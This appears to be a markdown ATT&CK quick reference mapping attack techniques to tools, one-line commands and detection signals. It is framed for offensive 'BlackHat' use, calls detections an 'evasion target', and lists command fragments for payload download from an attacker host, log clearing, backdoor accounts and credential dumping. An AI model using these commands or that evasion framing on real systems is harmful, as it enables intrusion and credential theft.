# MITRE ATT&CK Quick Reference

**Author:** Sagar Biswas 
**Version:** 0.0.0 · 2027 Edition 

**World-Class Operator Reference: Enterprise + ICS + ATLAS**

**Part of:** The BlackHAT Roadmap v0.0.0 (0 to GREATEST) | **Frameworks covered:** MITRE ATT&CK Enterprise v15, ICS ATT&CK v3, MITRE ATLAS v0.4 | **Status:** Living document. Verify IDs at https://attack.mitre.org before operational use.

> **How to use this reference:** Every technique entry includes the precise MITRE ID, the roadmap phase where it becomes relevant, a representative tool or implementation, and the primary detection signal defenders use to catch it. The detection column is not a warning: it is your evasion target. Know what fires, then build to avoid it.

---

## TABLE OF CONTENTS

1. [Enterprise Tactic Overview](#1-enterprise-tactic-overview)
2. [TA0043: Reconnaissance](#2-ta0043-reconnaissance)
3. [TA0042: Resource Development](#3-ta0042-resource-development)
4. [TA0001: Initial Access](#4-ta0001-initial-access)
5. [TA0002: Execution](#5-ta0002-execution)
6. [TA0003: Persistence](#6-ta0003-persistence)
7. [TA0004: Privilege Escalation](#7-ta0004-privilege-escalation)
8. [TA0005: Defense Evasion](#8-ta0005-defense-evasion)
9. [TA0006: Credential Access](#9-ta0006-credential-access)
10. [TA0007: Discovery](#10-ta0007-discovery)
11. [TA0008: Lateral Movement](#11-ta0008-lateral-movement)
12. [TA0009: Collection](#12-ta0009-collection)
13. [TA0011: Command and Control](#13-ta0011-command-and-control)
14. [TA0010: Exfiltration](#14-ta0010-exfiltration)
15. [TA0040: Impact](#15-ta0040-impact)
16. [Roadmap Phase to Technique Mapping](#16-roadmap-phase-to-technique-mapping)
17. [Critical Attack Chain Diagrams](#17-critical-attack-chain-diagrams)
18. [Tool to Technique Mapping](#18-tool-to-technique-mapping)
19. [MITRE ATLAS: AI/ML Attack Techniques](#19-mitre-atlas-aiml-attack-techniques)
20. [ICS ATT&CK Quick Reference](#20-ics-attck-quick-reference)
21. [Detection Signal Index](#21-detection-signal-index)

---

## 1. Enterprise Tactic Overview

MITRE ATT&CK Enterprise v15 defines 14 tactics. Each tactic answers the question: **what is the adversary trying to accomplish at this stage?**

>**Companion Roadmap Documents:**
> * **[Master Curriculum (Phases -1 to 6)](../phases/PHASE_-1.md)**: Zero-to-elite offensive engineering syllabus from foundational metal to apex operations.
> * **[BlackHat Long-Term Survival Tactics](../black-bag/BlackHat_Long-Term_Survival_Tactics.md)**: Operational security, physical counter-surveillance, and digital identity.
> * **[Philosophy: The BlackHat Mindset](Philosophy_The_BlackHat_Mindset.md)**: The cognitive progression and research postures from Student to GREATEST.
> * **[Tools Inventory](Tools_Inventory.md)**: Authoritative, phase-aligned 300+ tool catalog with installation and usage instructions.
> * **[Lab Setup Guide](Lab_Setup_Guide.md)**: Multi-tier virtualization, isolated AD lab topology, and hardware sizing.
> * **[Resources Aggregated](Resources_Aggregated.md)**: Canonical research databases, courses, books, and conference proceedings.
> * **[FAQ](FAQ.md)**: Comprehensive operational and career transitions FAQ.
> * **[Final Word](Final_Word.md)**: Document verification statistics, researcher attributions, and horizon research roadmap.

<table><tr><td>



</td></tr></table>

### Tactic Index

| TA# | Tactic | Question Answered | Phase Entry Point |
|---|---|---|---|
| TA0043 | Reconnaissance | What can I learn about the target before touching it? | Phase 1+ |
| TA0042 | Resource Development | What infrastructure and tools do I need before the op? | Phase -1 |
| TA0001 | Initial Access | How do I get a foothold on the target environment? | Phase 1+ |
| TA0002 | Execution | How do I run my code on the target system? | Phase 1+ |
| TA0003 | Persistence | How do I survive reboots and defender cleanup? | Phase 2+ |
| TA0004 | Privilege Escalation | How do I get from user to SYSTEM/root/Domain Admin? | Phase 2+ |
| TA0005 | Defense Evasion | How do I avoid detection and analysis? | Phase 3+ |
| TA0006 | Credential Access | How do I steal credentials for further access? | Phase 2+ |
| TA0007 | Discovery | What is on this network and how is it structured? | Phase 2+ |
| TA0008 | Lateral Movement | How do I move from this machine to others? | Phase 2+ |
| TA0009 | Collection | How do I gather the data I came for? | Phase 4F+ |
| TA0011 | Command and Control | How do I maintain reliable communication with the implant? | Phase 4B+ |
| TA0010 | Exfiltration | How do I get the data out without triggering alerts? | Phase 4F+ |
| TA0040 | Impact | How do I achieve the final objective (ransom, destruction, disruption)? | Phase 4F+ |

---

## 2. TA0043: Reconnaissance

> Pre-attack information gathering. No malicious code touches the target. All passive and active recon maps here.

| Technique | Sub-Technique | ID | Tool / Method | Detection Signal |
|---|---|---|---|---|
| Active Scanning | Scanning IP Blocks | T1595.001 | nmap, masscan, shodan-cli | Firewall: sequential port scan pattern from single source |
| Active Scanning | Vulnerability Scanning | T1595.002 | nuclei, nessus, OpenVAS | WAF/IDS: known scanner User-Agents and probe patterns |
| Active Scanning | Wordlist Scanning | T1595.003 | ffuf, gobuster, feroxbuster | Web server: rapid 404 bursts, dir-scan signatures |
| Gather Victim Host Info | Software | T1592.002 | shodan, Censys, BinaryEdge | No internal visibility: passive OSINT only |
| Gather Victim Network Info | Network Topology | T1590.004 | BGP route data, WHOIS, traceroute | No internal visibility |
| Gather Victim Network Info | DNS | T1590.002 | dig, dnsx, subfinder, amass | No internal visibility |
| Gather Victim Identity Info | Email Addresses | T1589.002 | hunter.io, theHarvester, phonebook.cz | No internal visibility |
| Gather Victim Identity Info | Credentials | T1589.001 | dehashed.com, leak databases, HIBP | No internal visibility |
| Gather Victim Org Info | Determine Physical Locations | T1591.001 | LinkedIn, Google Maps, corp website | No internal visibility |
| Gather Victim Org Info | Identify Business Tempo | T1591.003 | LinkedIn, Glassdoor, earnings calls | No internal visibility |
| Search Open Tech Databases | WHOIS / RDAP | T1596.001 | whois, viewdns.info | No internal visibility |
| Search Open Tech Databases | Shodan / Censys | T1596.005 | shodan CLI, Censys API | No internal visibility |
| Search Open Tech Databases | Certificate Transparency | T1596.003 | crt.sh, certstream | No internal visibility |
| Search Open Websites | Social Media | T1593.001 | LinkedIn, Twitter/X, GitHub dorking | No internal visibility |
| Search Open Websites | Code Repositories | T1593.003 | GitHub, GitLab: truffleHog, gitleaks | No internal visibility |
| Search Closed Sources | Threat Intel | T1597.001 | Dark web forums, paid intel feeds | No internal visibility |
| Phishing for Information | Spearphishing Link | T1598.003 | Tracking pixel, O365 consent phish | Email gateway: suspicious link rewrite |
| Phishing for Information | Spearphishing Attachment | T1598.002 | Macro doc with tracking beacon | Email gateway: macro-enabled docs |

---

## 3. TA0042: Resource Development

> Building and acquiring the infrastructure and capabilities needed before the operation. Maps to Phase -1 OPSEC work.

| Technique | Sub-Technique | ID | Tool / Method | Detection Signal |
|---|---|---|---|---|
| Acquire Infrastructure | Domains | T1583.001 | Namecheap + crypto, aged domain brokers | Passive DNS: recently registered domain similar to target |
| Acquire Infrastructure | DNS Server | T1583.002 | Custom NS on VPS (dnsmasq, bind9) | No external visibility pre-op |
| Acquire Infrastructure | Virtual Private Server | T1583.003 | Vultr/Hetzner paid with Monero | No external visibility pre-op |
| Acquire Infrastructure | Server | T1583.004 | Dedicated server, bulletproof hosting | No external visibility pre-op |
| Acquire Infrastructure | Web Services | T1583.006 | GitHub Pages, Azure Blob, S3 (for staging) | No external visibility pre-op |
| Compromise Infrastructure | Server | T1584.004 | Compromise legitimate server for relay | No external visibility pre-op |
| Develop Capabilities | Malware | T1587.001 | Custom C2 implant, custom dropper | No external visibility pre-op |
| Develop Capabilities | Code Signing Certs | T1587.002 | Purchase EV cert under shell company | No external visibility pre-op |
| Develop Capabilities | Exploits | T1587.004 | Fuzzing, patch diffing, POC dev | No external visibility pre-op |
| Obtain Capabilities | Malware | T1588.001 | GitHub, underground markets | No external visibility pre-op |
| Obtain Capabilities | Tool | T1588.002 | Cobalt Strike license, commercial RAT | No external visibility pre-op |
| Obtain Capabilities | Vulnerabilities | T1588.006 | 0day purchase, bug bounty intel | No external visibility pre-op |
| Stage Capabilities | Upload Malware | T1608.001 | Upload payload to staging server | No external visibility pre-op |
| Stage Capabilities | SEO Poisoning | T1608.006 | Malvertising, search result manipulation | No external visibility pre-op |

---

## 4. TA0001: Initial Access

> How the adversary gets the first foothold. Phase 1+ for web, Phase 2+ for network and social engineering.

| Technique | Sub-Technique | ID | Tool / Method | Detection Signal |
|---|---|---|---|---|
| Phishing | Spearphishing Attachment | T1566.001 | Macro-enabled Office doc, ISO dropper | Email gateway: macro doc, ISO/IMG attachment. Defender: AMSI scans macros |
| Phishing | Spearphishing Link | T1566.002 | Evilginx3 AiTM, O365 device code phish | Email gateway: URL detonation. Browser: certificate mismatch |
| Phishing | Spearphishing via Service | T1566.003 | Teams/Slack phishing DM, LinkedIn message | CASB/DLP: message with external link + file |
| Exploit Public-Facing Application | -- | T1190 | SQLi, RCE on internet-facing apps (Burp, nuclei) | WAF alert, SIEM: exploit pattern in web logs |
| External Remote Services | -- | T1133 | VPN credential stuffing, RDP brute-force | SIEM: repeated auth failures, geography anomaly |
| Valid Accounts | Domain Accounts | T1078.002 | Credential stuffing, phished creds on VPN | UEBA: impossible travel, off-hours login anomaly |
| Valid Accounts | Cloud Accounts | T1078.004 | Azure/AWS/GCP credential theft | CASB: impossible travel, new device plus IP |
| Supply Chain Compromise | Compromise Software Dependencies | T1195.001 | Malicious NPM/PyPI package, typosquatting | Dependency scanning: hash mismatch, new maintainer |
| Supply Chain Compromise | Compromise Software Supply Chain | T1195.002 | Backdoored update server, CI/CD pipeline | Code signing: invalid or unexpected certificate |
| Hardware Additions | -- | T1200 | LAN Turtle, Bash Bunny, Rubber Ducky | Physical: USB device log (Event 6416), endpoint: unknown USB |
| Replication Through Removable Media | -- | T1091 | autorun.inf, shortcut (.lnk) dropper on USB | Endpoint: autorun disabled, USB device policy |
| Trusted Relationship | -- | T1199 | Compromise MSP or IT vendor with access | SIEM: access from 3rd-party CIDR outside change window |
| Drive-by Compromise | -- | T1189 | Browser exploit via watering hole | Browser telemetry: exploit kit patterns, script injection |

---

## 5. TA0002: Execution

> Running attacker-controlled code on the target system.

| Technique | Sub-Technique | ID | Tool / Method | Detection Signal |
|---|---|---|---|---|
| Command and Scripting Interpreter | PowerShell | T1059.001 | Invoke-Expression, AMSI bypass + download cradle | Event 4104: script block logging. Defender: AMSI scan |
| Command and Scripting Interpreter | Windows Command Shell | T1059.003 | cmd.exe LOLBin chains, wscript.exe | Event 4688: suspicious cmd.exe parent (Office, browser) |
| Command and Scripting Interpreter | Unix Shell | T1059.004 | bash -c, sh reverse shell one-liners | auditd: execve with suspicious args, /proc monitoring |
| Command and Scripting Interpreter | Python | T1059.006 | python3 -c payload, pty.spawn shell | auditd: python3 spawning sh/bash |
| Command and Scripting Interpreter | JavaScript | T1059.007 | wscript.exe malicious .js, Node.js payload | Event 4688: wscript.exe with .js argument |
| Command and Scripting Interpreter | Visual Basic | T1059.005 | mshta.exe vbscript, wscript .vbs | Event 4688: mshta.exe, cscript.exe unusual parent |
| Native API | -- | T1106 | Direct syscalls (SysWhispers3, FreshyCalls), NtCreateProcess | ETW: NtApi call sequence anomaly. EDR: unhooking detection |
| Scheduled Task/Job | Scheduled Task | T1053.005 | schtasks /create, BITS Job, Task Scheduler COM | Event 4698: task created. Sysmon 1: schtasks.exe with /create |
| Scheduled Task/Job | Cron | T1053.003 | crontab -e, /etc/cron.d/ dropper | auditd: crontab write. File integrity: /etc/cron* modification |
| Scheduled Task/Job | Container Orchestration Job | T1053.007 | Kubernetes CronJob for persistence | K8s audit log: CronJob created by unexpected service account |
| Windows Management Instrumentation | -- | T1047 | wmic process call create, WMI event subscription | Event 4688: wmiprvse.exe child processes. Sysmon: WMI spawning unusual process |
| System Services | Service Execution | T1569.002 | sc.exe create/start, psexec remote service | Event 7045: new service installed. Event 4624 with Logon Type 3 |
| User Execution | Malicious File | T1204.002 | Weaponized Office doc, .lnk dropper, ISO container | Defender: file scan on open. Sysmon 11: Office spawning script |
| User Execution | Malicious Link | T1204.001 | Browser exploit, fake update page | Network: DNS to known-bad domain. Browser: script execution |
| Software Deployment Tools | -- | T1072 | SCCM/Intune abuse, Ansible payload push | SCCM logs: deployment to unscheduled collections |
| Exploitation for Client Execution | -- | T1203 | Browser exploit (CVE), PDF exploit | AV/EDR: shellcode in renderer process memory |
| Shared Modules | -- | T1129 | DLL loaded via LoadLibrary from unusual path | Sysmon 7: image load from writable path (AppData, Temp) |

---

## 6. TA0003: Persistence

> Surviving reboots, credential changes, and defensive cleanup.

| Technique | Sub-Technique | ID | Tool / Method | Detection Signal |
|---|---|---|---|---|
| Boot or Logon Autostart | Registry Run Keys | T1547.001 | HKCU\Software\Microsoft\Windows\CurrentVersion\Run | Sysmon 12/13: Run key write from unusual process |
| Boot or Logon Autostart | Winlogon Helper DLL | T1547.004 | Winlogon\Userinit or Shell value modification | Sysmon 13: Winlogon registry value changed |
| Boot or Logon Autostart | Security Support Provider | T1547.005 | LSA\Security Packages registry add (custom SSP) | Sysmon 13: LSA Security Packages write. Sysmon 7: new SSP DLL loaded by lsass |
| Boot or Logon Autostart | Shortcut Modification | T1547.009 | LNK file in Startup folder with malicious target | Sysmon 11: .lnk file created/modified in Startup path |
| Boot or Logon Autostart | Kernel Modules and Extensions | T1547.006 | LKM rootkit (Linux), kext (macOS legacy) | auditd: init_module syscall. modprobe log: unsigned module |
| Boot or Logon Init Scripts | Logon Script (Windows) | T1037.001 | Group Policy Logon Script, UserInitMprLogonScript | Event 4688: script run at logon from SYSVOL |
| Create or Modify System Process | Windows Service | T1543.003 | sc.exe create, service DLL, BYOVD driver load | Event 7045: new service. Sysmon 6: driver load from temp path |
| Create or Modify System Process | Launch Agent (macOS) | T1543.001 | ~/Library/LaunchAgents/ plist | launchd log: new agent loaded. File integrity: LaunchAgents/ |
| Create or Modify System Process | Launch Daemon (macOS) | T1543.004 | /Library/LaunchDaemons/ root-owned plist | launchd log: new daemon. File integrity: LaunchDaemons/ |
| Scheduled Task/Job | Scheduled Task | T1053.005 | schtasks, Task Scheduler COM object | Event 4698, 4702: task created/updated |
| Scheduled Task/Job | Cron | T1053.003 | crontab, /etc/cron.d, /etc/cron.hourly | File integrity: cron path modification |
| Event Triggered Execution | WMI Event Subscription | T1546.003 | __EventFilter + __EventConsumer + __FilterToConsumerBinding | Event 5861: WMI activity. Sysmon 19/20/21: WMI events |
| Event Triggered Execution | Component Object Model Hijacking | T1546.015 | HKCU\Software\Classes\CLSID registry hijack | Sysmon 12/13: CLSID write under HKCU. Sysmon 7: COM DLL from unexpected path |
| Event Triggered Execution | Application Shimming | T1546.011 | sdbinst.exe custom shim database | Event 4688: sdbinst.exe. Sysmon: shim database file |
| Hijack Execution Flow | DLL Search Order Hijacking | T1574.001 | Place malicious DLL in application directory (phantom DLL) | Sysmon 7: DLL loaded from application dir instead of System32 |
| Hijack Execution Flow | DLL Side-Loading | T1574.002 | Legitimate signed binary loads unsigned DLL side-by-side | Sysmon 7: DLL with no signature loaded alongside signed EXE |
| Hijack Execution Flow | Path Interception (PATH Env) | T1574.007 | Prepend writable dir to PATH, shadow system binary | auditd: execve for system binary resolved to user-writable path |
| Pre-OS Boot | System Firmware | T1542.001 | UEFI DXE driver implant (CosmicStrand, MoonBounce) | Firmware integrity check fails. Secure Boot: signature mismatch |
| Pre-OS Boot | Bootkit | T1542.003 | MBR/VBR overwrite (old), UEFI bootkit (modern) | Secure Boot: policy violation. BitLocker: unexpected recovery prompt |
| Server Software Component | Web Shell | T1505.003 | China Chopper, WSO, aspx/php web shell | Web server log: POST to .aspx/.php with cmd/eval pattern |
| Create Account | Local Account | T1136.001 | net user backdoor /add, useradd -m | Event 4720: user account created. auditd: useradd |
| Create Account | Domain Account | T1136.002 | New-ADUser (DA required) | Event 4720 on DC: domain account creation |
| Browser Extensions | -- | T1176 | Malicious Chrome/Edge extension via policy | Browser management log: extension installed outside store |
| BITS Jobs | -- | T1197 | bitsadmin /create, Start-BitsTransfer (download + execute) | Event 4688: bitsadmin.exe. BITS log: job to external URL |

---

## 7. TA0004: Privilege Escalation

> Getting from low-privileged user to SYSTEM (Windows), root (Linux), or Domain Admin (AD).

| Technique | Sub-Technique | ID | Tool / Method | Detection Signal |
|---|---|---|---|---|
| Abuse Elevation Control Mechanism | Bypass User Account Control | T1548.002 | fodhelper.exe, eventvwr.exe, sdclt.exe, UACME | Event 4688: high-integrity process spawned from medium-integrity parent without UAC prompt |
| Abuse Elevation Control Mechanism | Setuid and Setgid | T1548.001 | SUID binary abuse: find / -perm -4000, GTFOBins | auditd: execve of SUID binary by non-owner. Sysmon for Linux: setuid call |
| Abuse Elevation Control Mechanism | Sudo and Sudo Caching | T1548.003 | sudo -l, sudo abuse, sudoers misconfiguration | auth.log: sudo invocation. auditd: sudo command |
| Abuse Elevation Control Mechanism | TCC Manipulation (macOS) | T1548.006 | TCC.db modification, entitlement abuse | macOS Unified Log: TCC consent bypass event |
| Access Token Manipulation | Token Impersonation/Theft | T1134.001 | Incognito, ImpersonateLoggedOnUser, SeImpersonatePrivilege abuse | Event 4624 Logon Type 9: explicit credential logon under impersonated token |
| Access Token Manipulation | Create Process with Token | T1134.002 | CreateProcessWithTokenW, runas /netonly | Event 4688: process created under different account token |
| Access Token Manipulation | Make and Impersonate Token | T1134.003 | LogonUser + ImpersonateLoggedOnUser | Event 4648: explicit credential logon |
| Exploitation for Privilege Escalation | -- | T1068 | HEVD kernel exploits, CVE local privesc, BYOVD (exploit phase) | Kernel crash (BSOD) during failed attempt. EDR: shellcode in kernel context |
| Process Injection | DLL Injection | T1055.001 | CreateRemoteThread + LoadLibrary pattern | Sysmon 8: CreateRemoteThread. Sysmon 10: OpenProcess on target |
| Process Injection | Portable Executable Injection | T1055.002 | VirtualAllocEx + WriteProcessMemory + CreateRemoteThread | Sysmon 8: CreateRemoteThread to unrelated process |
| Process Injection | Thread Execution Hijacking | T1055.003 | SuspendThread + GetThreadContext + SetThreadContext | Sysmon 8: thread manipulation. EDR: thread context modification |
| Process Injection | Asynchronous Procedure Call | T1055.004 | QueueUserAPC, Early Bird APC injection | Sysmon 8: QueueUserAPC to alertable thread. Memory: shellcode in APC queue |
| Process Injection | Process Hollowing | T1055.012 | CREATE_SUSPENDED + NtUnmapViewOfSection + write + resume | Sysmon 25: process tampering (image mismatch). EDR: VAD walks showing hollowed section |
| Process Injection | Process Doppelganging | T1055.013 | TxF transaction + section creation + process creation | EDR: NtCreateTransaction + NtCreateSection sequence |
| Process Injection | Ptrace System Calls (Linux) | T1055.008 | ptrace(PTRACE_POKETEXT) on target process | auditd: ptrace syscall on non-child process |
| Create or Modify System Process | Windows Service | T1543.003 | Unquoted service path, writable service binary | Event 7045: new service. SCM audit |
| Escape to Host | -- | T1611 | Privileged Docker container, docker.sock mount, CAP_SYS_ADMIN | Container runtime: privileged flag. K8s audit: container with hostPID/hostNetwork |

---

## 8. TA0005: Defense Evasion

> The largest tactic. Every technique here is designed to prevent detection, analysis, or response. Phase 4C core content.

### 8.1 Obfuscation and In-Memory Techniques

| Technique | Sub-Technique | ID | Tool / Method | Detection Signal |
|---|---|---|---|---|
| Obfuscated Files or Information | Binary Padding | T1027.001 | Append null bytes to change hash | Hash-based detection fails. Size anomaly |
| Obfuscated Files or Information | Software Packing | T1027.002 | UPX, custom packer, PE section encryption | Entropy scan: high entropy in PE sections. Emulation-based detection |
| Obfuscated Files or Information | Steganography | T1027.003 | Payload hidden in PNG/JPEG/WAV | Content inspection (rare). DLP: outbound image with unexpected data |
| Obfuscated Files or Information | Compile After Delivery | T1027.004 | C# source delivered + csc.exe compile on target | Sysmon 1: csc.exe, msbuild.exe spawning from unusual parent |
| Obfuscated Files or Information | Dynamic API Resolution | T1027.007 | GetProcAddress at runtime instead of import table, hash-based API resolution | EDR: missing import table entries for resolved functions. Static analysis fails |
| Obfuscated Files or Information | Stripped Payloads | T1027.008 | Strip symbols, remove RTTI, remove debug info | RE difficulty increased. File: no PDB path, no version info |
| Obfuscated Files or Information | Embedded Payloads | T1027.009 | Shellcode embedded in PNG resource, PE overlay | Entropy scan: high entropy in resource section |
| Obfuscated Files or Information | Command Obfuscation | T1027.010 | Invoke-Obfuscation, PowerShell tokenizer bypass, base64 encode | AMSI: obfuscation pattern heuristic. Script block logging |
| Obfuscated Files or Information | Encrypted/Encoded File | T1027.013 | AES-encrypted shellcode, XOR-encoded payload | Static: no strings. Dynamic: decrypt+exec pattern in memory |
| Obfuscated Files or Information | Sleep Obfuscation | T1027 | Ekko, Foliage, Cronos: encrypt implant in memory during sleep | EDR: memory scan during sleep finds encrypted blob instead of shellcode. Timing anomaly |
| Reflective Code Loading | -- | T1620 | sRDI (shellcode reflective DLL injection), Donut, reflective PE loading | EDR: PE mapped without corresponding file on disk. Sysmon 7: DLL with no on-disk backing |

> **Correction note (vs previous version):** "Reflective DLL Injection" was previously listed as T1055.001. T1055.001 is **DLL Injection** (CreateRemoteThread + LoadLibrary pattern). Reflective DLL loading -- where the DLL loads itself into memory without calling LoadLibrary -- is **T1620** (Reflective Code Loading). sRDI (shellcode-reflective DLL injection) maps to T1620, not T1055.001.

### 8.2 System and Process Evasion

| Technique | Sub-Technique | ID | Tool / Method | Detection Signal |
|---|---|---|---|---|
| Impair Defenses | Disable or Modify Tools (AMSI Bypass) | T1562.001 | Patch AmsiScanBuffer in-memory, AMSI provider unregister | Sysmon 10: OpenProcess on AV/EDR process. AMSI: provider not loaded |
| Impair Defenses | Disable Windows Event Logging | T1562.002 | wevtutil sl Security /e:false, NtSetSystemInformation | Event 1100/1102: log service stopped/cleared. Gap in event timeline |
| Impair Defenses | Impair Command History Logging | T1562.003 | unset HISTFILE, Set-PSReadLineOption -HistorySaveStyle SaveNothing | Forensic: missing .bash_history, empty PSReadLine history |
| Impair Defenses | Disable or Modify Firewall | T1562.004 | netsh advfirewall set allprofiles state off | Event 4950: firewall policy changed |
| Impair Defenses | Indicator Blocking (ETW Patch) | T1562.006 | Patch EtwEventWrite in ntdll.dll (NOP the function) | EDR: silent telemetry gap. Memory: ntdll.dll modification detected |
| Impair Defenses | Downgrade Attack | T1562.010 | PSv2 downgrade (bypass script block logging), TLS downgrade | Event 400: PowerShell engine version 2. Network: unexpected old protocol |
| BYOVD -- Driver Load Phase | Windows Service | T1543.003 | LOLDrivers: gmer.sys, RTCore64.sys, DBUtil_2_3.sys load via sc.exe | Event 7045: service installed. Sysmon 6: driver load from non-standard path |
| BYOVD -- EDR Kill Phase | Disable or Modify Tools | T1562.001 | Use vulnerable driver IOCTL to terminate EDR process or driver | EDR: self-protection alert. Kernel: unexpected driver-level kill of protected process |
| Virtualization/Sandbox Evasion | System Checks | T1497.001 | Check CPU core count, RAM size, disk size, CPUID hypervisor bit | Behavioral: delay or NOP in sandbox. Sandbox: unusual process termination before payload |
| Virtualization/Sandbox Evasion | User Activity Based Checks | T1497.002 | Check mouse movement history, foreground window, recent files | Sandbox: no user activity simulation triggers payload |
| Virtualization/Sandbox Evasion | Time Based Evasion | T1497.003 | Sleep 5+ minutes before execution, check system uptime | Sandbox: timeout before detonation completes |
| Hide Artifacts | Hidden Files and Directories | T1564.001 | attrib +h +s, chflags hidden (macOS), dot prefix (Linux) | File integrity: hidden file in sensitive path |
| Hide Artifacts | Hidden Users | T1564.002 | HKLM\...\Winlogon\SpecialAccounts\UserList registry entry | Event 4720 + registry entry. User list anomaly |
| Hide Artifacts | Hidden Window | T1564.003 | CreateWindowEx with SW_HIDE, PowerShell -WindowStyle Hidden | Sysmon 1: process with -WindowStyle Hidden argument |
| Hide Artifacts | Hidden File System | T1564.005 | Raw disk write to unpartitioned space, alternate data stream | Forensic: ADS scan (streams.exe), disk hex analysis |
| Hide Artifacts | Run Virtual Instance | T1564.006 | Running malware inside a VM to hide from host EDR | Hypervisor detection: unexpected vmware/virtualbox driver installed on endpoint |
| Masquerading | Match Legitimate Name/Location | T1036.005 | svchost.exe in %APPDATA%, lsass.exe not in System32 | Sysmon 1: process path mismatch from expected location |
| Masquerading | Double File Extension | T1036.007 | resume.pdf.exe, invoice.docx.js | File: double extension in email gateway or endpoint |
| System Binary Proxy Execution | Rundll32 | T1218.011 | rundll32.exe payload.dll,EntryPoint | Sysmon 1: rundll32.exe with unusual DLL path or comma syntax |
| System Binary Proxy Execution | Regsvr32 | T1218.010 | regsvr32 /s /u /i:http://... scrobj.dll (Squiblydoo) | Sysmon 1: regsvr32.exe with /i: URL argument |
| System Binary Proxy Execution | Mshta | T1218.002 | mshta.exe vbscript:payload, mshta http://... | Sysmon 1: mshta.exe with URL or vbscript: argument |
| System Binary Proxy Execution | Msiexec | T1218.007 | msiexec /q /i http://attacker/payload.msi | Sysmon 1: msiexec.exe with /i URL. Network: msiexec HTTP |
| System Binary Proxy Execution | InstallUtil | T1218.004 | InstallUtil.exe /logfile= /U payload.exe | Sysmon 1: InstallUtil.exe in unusual context |
| System Binary Proxy Execution | MSBuild | T1127.001 | msbuild.exe malicious.csproj | Sysmon 1: msbuild.exe not in Visual Studio context |
| System Binary Proxy Execution | Verclsid | T1218.012 | verclsid.exe /S /C {CLSID} executing COM object | Sysmon 1: verclsid.exe with unexpected CLSID |
| Indicator Removal | Clear Windows Event Logs | T1070.001 | wevtutil cl System, Clear-EventLog | Event 1102: security log cleared. Event 104: system log cleared |
| Indicator Removal | Clear Command History | T1070.003 | Remove-Item (Get-PSReadLineOption).HistorySavePath | Forensic: PSReadLine history file empty or missing |
| Indicator Removal | File Deletion | T1070.004 | del /f /q, rm -rf, secure-delete | Forensic: MFT entry + no file. USN journal: delete record |
| Indicator Removal | Timestomp | T1070.006 | touch -t, SetFileTime Win32 API | Forensic: $STANDARD_INFORMATION vs $FILE_NAME mismatch in MFT |
| Deobfuscate/Decode Files or Information | -- | T1140 | certutil -decode, base64 -d, XOR decode routine on target | Sysmon 1: certutil.exe with -decode. Script: decode + exec pattern |
| Modify Registry | -- | T1112 | reg add, RegSetValueEx, direct registry hive write | Sysmon 12/13: registry modification in sensitive keys |
| Indirect Command Execution | -- | T1202 | pcalua.exe, forfiles, explorer.exe shell: | Sysmon 1: unusual parent-child process chain via LOLBin |
| Stack Spoofing | -- | T1027 | Synthetic call stacks (ThreadStackSpoofer, CallStackSpoofer): forged RET chains to hide true call origin | EDR: call stack walk terminates in non-standard module. Kernel-mode stack walk finds forged frames |

> **Correction note (vs previous version):** Stack Spoofing was previously mapped to T1055 (Process Injection). T1055 covers injecting code into other processes. Stack spoofing is a technique to hide the true origin of a call by constructing fake return address chains on the stack. It is a detection evasion technique best mapped to **T1027** (Obfuscated Files or Information) as it obfuscates execution flow from EDR call-stack-based behavioral detection. Hypervisor Rootkit was previously mapped to T1564 (Hide Artifacts). A hypervisor rootkit that seats itself below the OS is best mapped to **T1542.001** (Pre-OS Boot: System Firmware) or **T1542.003** (Bootkit) for the persistence/execution component. T1564 covers hiding artifacts within an OS, not subverting the OS itself. BYOVD was previously mapped only to T1543.003. The correct mapping is **T1543.003** (loading the driver as a Windows service) combined with **T1562.001** (using the driver's IOCTL to kill/disable EDR). Both IDs are required to fully describe the technique.

---

## 9. TA0006: Credential Access

> Stealing credentials from memory, disk, and authentication services. Phase 2+ core. Phase 4I AD-specific depth.

| Technique | Sub-Technique | ID | Tool / Method | Detection Signal |
|---|---|---|---|---|
| OS Credential Dumping | LSASS Memory | T1003.001 | Mimikatz sekurlsa::logonpasswords, procdump lsass, nanodump | Sysmon 10: process access to lsass.exe with PROCESS_VM_READ. Event 4656/4663: handle to lsass |
| OS Credential Dumping | SAM | T1003.002 | reg save HKLM\SAM, secretsdump SAM extraction | Sysmon 12/13: SAM hive access. Event 4661: SAM object access |
| OS Credential Dumping | NTDS | T1003.003 | ntdsutil IFM, vssadmin + NTDS.dit copy | Event 4776: NTLM auth spike after dump. VSS: snapshot created |
| OS Credential Dumping | LSA Secrets | T1003.004 | reg save HKLM\SECURITY, secretsdump -secrets | Event 4661: SECURITY hive accessed by non-SYSTEM process |
| OS Credential Dumping | DCSync | T1003.006 | impacket-secretsdump -just-dc, Mimikatz lsadump::dcsync | Event 4662: DS-Replication-Get-Changes-All from non-DC account. Network: DRS traffic from non-DC IP |
| Steal or Forge Kerberos Tickets | Golden Ticket | T1558.001 | Mimikatz kerberos::golden (requires krbtgt hash) | Event 4768: TGT with anomalous PAC or lifetime. SIEM: ticket used from non-existent account |
| Steal or Forge Kerberos Tickets | Silver Ticket | T1558.002 | Mimikatz kerberos::silver (requires service account hash) | Event 4769: service ticket with RC4 on AES-only environment. No corresponding 4768 event |
| Steal or Forge Kerberos Tickets | Kerberoasting | T1558.003 | GetUserSPNs.py, Rubeus kerberoast, impacket | Event 4769: RC4 (0x17) service ticket requests. Volume: multiple SPNs requested rapidly from one host |
| Steal or Forge Kerberos Tickets | AS-REP Roasting | T1558.004 | GetNPUsers.py, Rubeus asreproast, kerbrute | Event 4768: AS-REQ without pre-auth flag. Accounts with DoNotRequirePreAuth attribute |
| Steal or Forge Kerberos Tickets | Diamond Ticket | T1558.001 | Rubeus diamond (request + modify valid TGT) | Harder to detect than Golden: legitimate 4768 + modified PAC. Event 4672: modified privilege set |
| Steal or Forge Kerberos Tickets | Timeroasting | T1558.003 | Timeroast.py (computer account Kerberos hash offline crack) | Event 4769 with computer account SPN. Low signal: difficult to distinguish from legitimate |
| Steal or Forge Authentication Certificates | ADCS ESC1 | T1649 | Certipy req -template -upn, template allows SAN | Event 4886: certificate issued. AD CS: template with ENROLLEE_SUPPLIES_SUBJECT flag |
